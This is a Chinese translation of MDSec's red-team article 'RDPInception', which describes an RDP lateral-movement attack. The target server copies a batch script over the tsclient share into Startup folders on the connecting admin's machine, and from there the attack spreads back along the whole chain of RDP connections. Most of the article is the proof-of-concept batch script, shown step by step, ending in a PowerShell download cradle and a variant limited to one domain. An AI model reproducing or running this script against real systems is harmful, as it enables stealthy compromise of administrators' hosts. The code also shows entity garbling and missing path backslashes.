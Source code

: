 > 原文链接: https://www.anquanke.com//post/id/86365 


# 【技术分享】RDPInception：另类RDP攻击手段（附演示视频）


                                阅读量   
                                **110225**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：mdsec.co.uk
                                <br>原文地址：[https://www.mdsec.co.uk/2017/06/rdpinception/](https://www.mdsec.co.uk/2017/06/rdpinception/)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p2.ssl.qhimg.com/t0111084d377023e118.jpg)](https://p2.ssl.qhimg.com/t0111084d377023e118.jpg)

译者：[興趣使然的小胃](http://bobao.360.cn/member/contribute?uid=2819002922)

预估稿费：140RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



**一、前言**



系统管理员经常使用远程桌面（Remote Desktop）来远程管理计算机。对许多机构及组织来说，这种行为意味着被远程访问的主机需要被放在DMZ区中或者只开放TCP 3389端口的隔离网络中。

在远程桌面中，用户可以“选择要在远程会话中使用的设备和资源”，这些设备或资源包括本地磁盘共享等，如下图所示：

[![](https://p2.ssl.qhimg.com/t015b623a735a767d56.png)](https://p2.ssl.qhimg.com/t015b623a735a767d56.png)

已经有许多研究人员对远程桌面的攻击路径以及存在的安全风险进行了理论上的分析，其中经常被提及的一个安全风险就是接受远程桌面连接请求的目标服务器可以对连入的主机发起攻击。[ActiveBreach](https://www.mdsec.co.uk/services/red-teaming/)团队的[Vincent Yiu](https://www.twitter.com/vysecurity)对这种名为RDPInception的攻击做了分析，提供了概念验证（PoC，proof of concept）脚本，利用这个脚本可以以递归方式对RDP服务器的访客发起攻击。ActiveBreach团队在模拟对抗演练中多次利用到了这种技术，取得了非常不错的效果。

<br>

**二、RDPInception攻击的相关概念**



RDPInception的攻击原理基于一个非常简单的概念，那就是“启动（Startup）”程序，也就是说，利用开始菜单中的“启动”目录强迫用户在登陆时执行代码。

考虑以下攻击场景：

[![](https://p0.ssl.qhimg.com/t01ce04834f124478c6.png)](https://p0.ssl.qhimg.com/t01ce04834f124478c6.png)

在这个攻击场景中，攻击者已经攻陷了数据库服务器。管理员通过RDP方式连入跳板节点（Jump box），然后再利用RDP方式依次连入域控（Domain Controller）、文件服务器以及数据库服务器。在这条连接路径中，攻击者可以在任意节点中发起RDPInception攻击。从理论上讲，只要管理员下次再次登录每台机器，攻击者就可以利用这种攻击方式获取整条路径中每台服务器的shell接口。在这个场景中，攻击者唯一需要的就是在DB001上发起RDPInception攻击，剩余的程序可以自动完成。

攻击者可以在受限环境中使用这种技术实施横向渗透攻击，无需用户凭证或利用漏洞。

<br>

**三、RDPInception的适用场景**



这种攻击技术最适合在高度受限的环境中使用，特别是当其他横向渗透技术以及权限提升技术无法完成任务时，攻击者就可以考虑使用这种方法。

此外，我们来考虑一种攻击场景，其中公司的某位员工在早上4点时通过远程方式登录服务器，整个登录会话持续了5分钟。在这种情况下，即使黑客能够持续不断地监视连入的RDP会话，也很难在这么短的时间内部署攻击环境。此外，这种监视动作很大，因为攻击者需要定期使用“query user”命令来判断当前主机是否有RDP连入会话，如果攻击者每隔1小时查询一次RDP会话，那么在这种攻击场景中，攻击者就会错过良机。RDPInception技术完全不需要持续性监视RDP连入会话。

<br>

**四、RDPInception原理**



RDPInception的概念验证程序是一个较为简单的批处理脚本，详细步骤如下所示。

关闭echo功能。



```
@echo off
```

设置一个短期计时器，确保tsclient已被加载。



```
timeout 1 &gt;nul 2&gt;&amp;1
```

在访客主机以及目标主机上创建临时目录。



```
mkdir \tsclientctemp &gt;nul 2&gt;&amp;1
mkdir C:temp &gt;nul 2&gt;&amp;1
```

将批处理脚本拷贝到临时目录中。



```
copy run.bat C:temp &gt;nul 2&gt;&amp;1
copy run.bat \tsclientctemp &gt;nul 2&gt;&amp;1
```

确保%TEMP%目录中不存在某个文本文件。



```
del /q %TEMP%temp_00.txt &gt;nul 2&gt;&amp;1
```

在访客主机以及目标主机上搜索启动目录。



```
set dirs=dir /a:d /b /s C:users*Startup*
set dirs2=dir /a:d /b /s \tsclientcusers*startup*
echo|%dirs%|findstr /i “MicrosoftWindowsStart MenuProgramsStartup”&gt;&gt;”%TEMP%temp_00.txt”
echo|%dirs2%|findstr /i “MicrosoftWindowsStart MenuProgramsStartup”&gt;&gt;”%TEMP%temp_00.txt”
```

遍历这些目录，尝试将批处理脚本传播到这些目录中。



```
for /F “tokens=*” %%a in (%TEMP%temp_00.txt) DO (
copy run.bat “%%a” &gt;nul 2&gt;&amp;1
copy C:temprun.bat “%%a” &gt;nul 2&gt;&amp;1
copy \tsclientctemprun.bat “%%a” &gt;nul 2&gt;&amp;1
)
```

清理%TEMP%文件。



```
del /q %TEMP%temp_00.txt &gt;nul 2&gt;&amp;1
```

使用PowerShell来下载执行攻击程序。



```
powershell.exe &lt;cradle here&gt;
```

<br>

**五、攻击范围<br>**



为了在给定条件下精确筛选攻击目标，攻击者在下载或执行攻击载荷时通常会遵循某些约束条件。

以下环境变量经常作为约束条件使用，比如：

1、用户名

2、用户所在域

3、子网信息

比如，我们可以使用用户所在域对攻击脚本进行修改：



```
If “&lt;DOMAINNAME&gt;“==”%USERDOMAIN%” (&lt;powershell cradle here&gt;)
```



**六、RDPInception工具<br>**



我们上传了一个攻击[脚本](https://github.com/mdsecactivebreach/RDPInception/)，可以依托Cobalt Strike框架自动化完成攻击过程，在这个项目中还有一个批处理脚本，大家可以自行修改以手动实施攻击，或者与其他工具（如Empire）配合使用。

如果你直接运行rdpinception，选择HTTP、HTTPS或者DNS类型的监听器，那么攻击过程就不会受到约束条件限制。

如果你以“rdpinception ACME”方式运行攻击脚本，那么攻击过程的约束条件就是ACME域，攻击脚本只会在加入到ACME域的主机上运行。

演示视频如下：



攻击所需的所有工具都可以从Github上的[ActiveBreach](https://github.com/mdsecactivebreach/RDPInception/)仓库中获取。


